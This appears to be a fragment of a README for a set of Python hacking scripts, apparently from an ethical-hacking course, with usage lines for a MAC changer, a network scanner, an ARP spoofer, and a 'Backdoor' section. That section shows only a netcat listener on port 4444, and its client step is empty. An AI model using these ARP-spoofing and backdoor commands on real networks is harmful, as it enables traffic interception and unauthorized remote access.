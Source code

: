 ##Examples


```bash
    #mac changer
    python mac_changer.py -i eth0 -m 12:22:22:22:22:22
```

```bash
    #scan network
    python scan_network.py -t 10.0.2.0/24
```

```bash
    #arp spoof
    #check router ip
    route -n
    python arp_spoof.py -t 10.0.2.15 -g 10.0.2.1
```

Backdoor

```bash
    #Server.Step 1:
    nc -vv -l -p 4444
    #Client. Step 2:
    

    
```